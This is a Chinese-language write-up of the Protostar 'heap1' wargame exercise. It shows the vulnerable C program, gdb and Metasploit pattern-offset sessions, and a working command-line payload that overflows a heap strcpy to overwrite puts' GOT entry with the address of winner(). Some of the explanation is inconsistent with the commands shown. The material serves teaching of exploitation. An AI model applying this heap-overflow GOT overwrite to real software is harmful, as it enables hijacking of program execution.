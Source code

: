 # heap1

## （一） 题目：

\#include &lt;unistd.h&gt;

\#include &lt;string.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;sys/types.h&gt;

struct internet {

int priority;

char \*name;

};

void winner\(\)

{

printf\("and we have a winner @ %d\n", time\(NULL\)\);

}

int main\(int argc, char \*\*argv\)

{

struct internet \*i1, \*i2, \*i3;

i1 = malloc\(sizeof\(struct internet\)\);

i1-&gt;priority = 1;

i1-&gt;name = malloc\(8\);

i2 = malloc\(sizeof\(struct internet\)\);

i2-&gt;priority = 2;

i2-&gt;name = malloc\(8\);

strcpy\(i1-&gt;name, argv\[1\]\);

strcpy\(i2-&gt;name, argv\[2\]\);

printf\("and that's a wrap folks!\n"\);

}

## （二）解题过程：

源码就是两个参数比较，看那个赢，决出一个来。如果不调用winner\(\)函数，是决出不了的。

本题就是利用strcpy过程中，没控制输入参数的长度，覆盖了指针，可以修改崩溃地址的值，从而改变执行流程，执行到winner函数的入口地址。

思路如下：

1）可以用手工试探法测试也可以用patter工具测试，定位会导致崩溃的精确位置。

2）用objdump -t 获取winner函数的地址或者gdb获取。

3）构造payload

验证思路：

1）

root@fly:/usr/share/metasploit-framework/tools/exploit\# ./pattern\_create.rb Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

root@protostar:/opt/protostar/bin\# gdb ./heap1

GNU gdb \(GDB\) 7.0.1-debian

Copyright \(C\) 2009 Free Software Foundation, Inc.

License GPLv3+: GNU GPL version 3 or later &lt;[http://gnu.org/licenses/gpl.html](http://gnu.org/licenses/gpl.html)

This is free software: you are free to change and redistribute it.

There is NO WARRANTY, to the extent permitted by law.  Type "show copying"

and "show warranty" for details.

This GDB was configured as "i486-linux-gnu".

For bug reporting instructions, please see:

&lt;[http://www.gnu.org/software/gdb/bugs/&gt;](http://www.gnu.org/software/gdb/bugs/&gt);...

Reading symbols from /opt/protostar/bin/heap1...done.

\(gdb\) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag bbbbbbbb

Starting program: /opt/protostar/bin/heap1 Aa0Aa1Aa2Aa3Aa4Aa5Aa**6Aa7**Aa8Aa9Ab0Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Agbbbbbb

Program received signal SIGSEGV, Segmentation fault.

\*\_\_GI\_strcpy \(dest=0x37614136 &lt;Address 0x37614136 out of bounds&gt;,

```
src=0xbffffe8e "bbbbbbbb"\) at strcpy.c:40
```

40    strcpy.c: No such file or directory.

```
in strcpy.c
```

root@fly:/usr/share/metasploit-framework/tools/exploit\# ./pattern\_offset.rb -q 0x37614136

\[\*\] Exact match at offset 20

找到了崩溃的精确位置，在距离缓冲区20个字节后的开始处。

2）print winner

objdump -tR ./heap1

08048494 g     F .text    00000025              winner

找到了winner地址   08048494

3）构造payload

0x08048561 &lt;main+168&gt;:    call   0x80483cc &lt;puts@plt&gt;

0x08048566 &lt;main+173&gt;:    leave

0x08048567 &lt;main+174&gt;:    ret

End of assembler dump.

\(gdb\) b \*0x0804855a

Breakpoint 1 at 0x804855a: file heap1/heap1.c, line 34.

\(gdb\) r AAAAAAAA BBBBBBBB

Starting program: /opt/protostar/bin/heap1 AAAAAAAA BBBBBBBB

Breakpoint 1, main \(argc=3, argv=0xbffffd44\) at heap1/heap1.c:34

34    heap1/heap1.c: No such file or directory.

```
in heap1/heap1.c
```

\(gdb\) x/2i 0x80483cc

0x80483cc &lt;puts@plt&gt;:    jmp    \*0x8049774

0x80483d2 &lt;puts@plt+6&gt;:    push   $0x30

./heap1 $\(python -c 'print "A"\*20 + "\x74\x97\x04\x08"'\) $\(python -c 'print "\x94\x84\x04\x08"'\)

![](/assets/75.png)

$ ./heap1 $\(python -c 'print "A"\*20 + "\x74\x97\x04\x08"'\) $\(python -c 'print "\x94\x84\x04\x08"'\)

and we have a winner @ 1568657805

20个A填充+ 4个字节覆盖崩溃错（jmp esp处,ESP指向下一条指令的地址） ，另外一个参数 用winner入口地址代替。

在这关有嵌入的 malloc 调用，接着，还有有漏洞的 strcpy 函数用于将我们的输入拷贝至 struct 中。

我们在每个 malloc 和 strcpy 之前放置断点来动态分析，同时也开始分析堆中的内容。

可以看到，每次 strcpy 之后堆的结构如图所示，从此我们可以推断在第一个 malloc 调用时，字段 \*name 的优先级和内存地址被放到了栈上，然后在I2的 malloc 调用完成的时候发生了同样的事情。因为这个程序使用了有漏洞的 strcpy 函数，这也意味着我们可以写任意的数据到任何可写的位置。 如图所示，我们使用第一个 strcpy 函数来改写地址0x804a038并放了一个 GOT 进去，通过第二个 strcpy 函数来改写地址0x42424242为 winner 函数的 PLT 地址，最终通过了本关。

![](/assets/77.png)

ref：

[http://www.atomsec.org/游戏/protostar-heap-0-2-write-ups/](http://www.atomsec.org/游戏/protostar-heap-0-2-write-ups/)

http://l33thacker.com/protostar-heap1-writeup/

